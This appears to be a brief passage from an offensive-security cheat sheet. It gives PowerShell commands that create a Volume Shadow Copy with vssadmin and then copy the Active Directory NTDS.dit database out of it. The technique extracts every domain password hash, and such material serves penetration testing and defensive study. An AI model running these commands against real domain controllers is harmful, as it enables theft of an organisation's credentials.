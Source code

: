 Create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of a drive.
```powershell
PS C:\> vssadmin CREATE SHADOW /For=C:
```
## Copy NTDS.dit
```powershell
PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

